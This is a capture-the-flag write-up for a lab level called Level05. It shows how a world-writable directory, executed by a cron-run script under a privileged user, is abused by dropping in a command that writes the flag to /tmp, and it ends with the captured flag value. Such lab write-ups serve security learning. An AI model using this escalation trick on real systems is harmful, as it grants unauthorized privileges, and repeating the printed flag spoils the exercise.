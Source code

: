 ### Level05

There is nothing on the HOME of this level. So as for level00 I start by doing ` find / -user flag05 2>/dev/null`. I get the following result:
```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
Then I start looking at the file with a cat
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We see that a script runs the entire contents of the folder and then deletes everything in `/opt/openarenaserver/`

We can't use vim to do a script there because we don't have the rights. So we have to use echo to write down our command and then redirect it to the folder

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

During my tests I noticed that the script disappeared from the folder after a few minutes, so there is an active cron to run the main script. Once I don't see getflag.sh in the /opt/openarenaserver/ folder, I just have to do cat /tmp/getflag. I get the flag :

`viuaaale9huek52boumoomioc`

